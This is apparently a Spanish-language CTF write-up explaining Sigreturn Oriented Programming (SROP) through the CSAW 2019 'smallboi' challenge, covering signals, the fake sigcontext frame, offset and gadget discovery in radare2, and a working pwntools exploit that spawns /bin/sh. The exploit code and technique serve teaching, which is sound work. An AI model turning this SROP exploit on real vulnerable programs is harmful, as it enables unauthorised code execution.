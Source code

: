 ```yaml
---
layout: default
title: Programacion Orientada a Sigreturn (SROP)
parent: Pwn y Reversing
---
```


# Color Utilities
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---
Resolucion de un ejercicio aplicando la tecnica SROP, para ejecutar un sigcontext falso y conseguir una shell
{:.lead}

## Señales

Las señales son un mecanismo para enviar notificaciones asincrónicas directamente a un proceso o subproceso. Este se utilizan para matar procesos, para decirles que los temporizadores han expirado o para notificar sobre un comportamiento anormal.

### Funcion de las señales

![](/assets/img/srop/se%C3%B1al.webp)

1. Cuando se tiene un proceso previamente creado, lo que se hace primero es que el kernel envia una señal a ese proceso, el proceso se suspende temporalmente y entrara en el kernel

2. Despues, el kernel guarda el contexto de ese proceso y salta al controlador de la señal (este ya debe de estar previamente definido)

3. Cuando se vuelve e pasar el kernel, el controlador de la señal regresa, y el kernel restaura el contexto del proceso

4. Ejecucion del proceso

Del paso 2 al 3 es la clave. SROP abusa de ```sigreturn()``` por que normalmente restaura el contexto del proceso despues de que regresa el controlador de señal, esto funciona mas o menos asi:

El kernel guarda el contexto del proceso en el stack del proceso, luego se usa la direccion de ```rt_sigreturn``` en el top del stack, esta direccion apunta a un fragmento de codigo en el que ```sigreturn()``` llamara a sistema. Despues del paso 3, el RSP o ESP apunta a ```rt_sigreturn``` y ejecuta el ```sigcontext```

### SROP

SROP es una variante de ROP, pero en esta solo se deben de cumplir dos condiciones

1. Un gadget ```syscall; ret```
2. Una manera de poner ```0xf``` en ```RAX``` o ```EAX```

Dos de las formas mas usadas para poner ```0xf``` en ```RAX``` son:

1. Usar ```mov eax, 0xf```
2. Usar ```pop eax; ret```

Ambas son faciles de implementar, ya que meten ```0xf``` en una sola acccion.
Y el ```0xf``` simplemente es el ```syscall ID de rt_sigreturn```.

## Como funciona

Aun que es similar a ROP, no funcionan de la misma forma, SROP funciona poniendo en el call stack un ```sigcontext``` pero falso. y luego sobrescribir el ```RIP``` o ```EIP``` con la direccion de un gadget que permita llamar a ```sigreturn()```, y se apunta a ```sigreturn()``` ya que este permite ejecutar el ```sigcontext```, realmente esto es muy poderoso, ya que con SROP podemos controlar al mismo tiempo todos los valores de los registros. Y cuando digo ```sigcontext```, me refiero a esto:

```c
struct sigcontext_64 {
	__u64				r8;
	__u64				r9;
	__u64				r10;
	__u64				r11;
	__u64				r12;
	__u64				r13;
	__u64				r14;
	__u64				r15;
	__u64				di;
	__u64				si;
	__u64				bp;
	__u64				bx;
	__u64				dx;
	__u64				ax;
	__u64				cx;
	__u64				sp;
	__u64				ip;
	__u64				flags;
	__u16				cs;
	__u16				gs;
	__u16				fs;
	__u16				ss;
	__u64				err;
	__u64				trapno;
	__u64				oldmask;
	__u64				cr2;
	__u64				fpstate;
	__u64				reserved1[8];
};
```
Cuando el atacante crea un ```sigcontext``` falso, puede establecer cualquier valor de cada uno de esos registros

## Explotacion

Para el ejemplo usare un clasico, ```smallboi``` de CSAW 2019

Al ejecutarlo simplemente se queda esperando un input y se cierra, y al tratar de desbordar el buffer vemos que si se puede:

```[1]    423456 segmentation fault (core dumped)  ./small_boi```

Pero tiene NX asi que no podemos ejecutar una shellcode

### Analizandolo

Al materlo al radare, vemos y hacer un ```pdf``` vemos algo como esto:

![](/assets/img/srop/radare1.png)

Esto simplemente es el entry point, y lo unico interesante es que en la direccion ```0x004001b6``` hace un llamado a ```fcn.0040018c```, asi que vamos pa' alla

![](/assets/img/srop/radare2.png)

Este es su codigo, basicamente el binario hacer una syscall de ```read()```, la cual es la funcion que recibe nuestro input, la cual lee ```0x200``` bytes que vienen de ```var_20h```


### Sacando el offset el RIP

Esta es la parte mas sencilla, asi que realmente no requiere mucha explicacion, lo que hice fue:

1. Usando pwndbg genere con ```cyclic 100``` una secuencia de 100 caracteres que le pase como input al programa
2. Usando ```cyclic -l```  y 8 bytes de el RSP obtuve su offset

Y bueno, el offset para llegar al RIP es 40

### Sacando el gadget

El binario apenas si tiene instrucciones y por consiguiente apenas y tendra los gadgets que son usados comunmente jaja, asi que ahora queda mostrar los gadgets usando ```/R``` en radare, a ver que onda.

Despues de ver los gadgets nos encontramos con el que usaremos:

![](/assets/img/srop/radare3.png)

Aqui esta todo lo que ocupamos, este unico gadget hace las dos condiciones que mencion al principio, ya que establece a ```EAX``` el nuemero de la syscall equivalente a ```sigreturn()``` y la invoca. Tambien como mencione antes, en SROP se crear un ```sigcontext``` falso, asi que en esta caso haremos uno falso llamando a ```execve()``` con el arguemento ```/bin/sh``` 

Para sacar ```/bin/sh``` simplemente podemos ```/ /bin/sh``` y vemos que nos arroja algo como esto:

![](/assets/img/srop/radare4.png)

Donde la direccion de ```/bin/sh``` es la que esta seleccionada

## Exploit

Al conseguir todo, nuestro exploit queda asi:

```py
from pwn import *

context.arch = 'amd64'

p = process("./small_boi")

bin_sh = 0x4001ca
sigreturn = 0x400180
syscall = 0x400185

payload = b'A'*40
payload += p64(sigreturn)

frame = SigreturnFrame(kernel='amd64')
frame.rax = 59
frame.rdi = bin_sh
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall

payload += bytes(frame)
p.send(payload)
p.interactive()
```
Y los valores salieron de aca:

![](/assets/img/srop/radare5.png)

Con ```SigreturnFrame``` Podemos crear un ```sigcontext``` falso, donde se establece ```rax``` a 59 (para execve), ```rdi``` a la dirección del ```/bin/sh```, ```rsi``` y ```rdx``` ambos a 0, y ```rip``` hacia la ```syscall```, esto con el fin de que la ```rt_sigreturn``` syscall cambie de contexto usando estos valores del falso ```sigcontext```, llamando así a ```execve``` con ```/bin/sh```. :point_up: 🤓 

Y el ejecutarlo nos da la shell:

![](/assets/img/srop/exploit.png)

Eso ha sido todo, gracias por leer ❤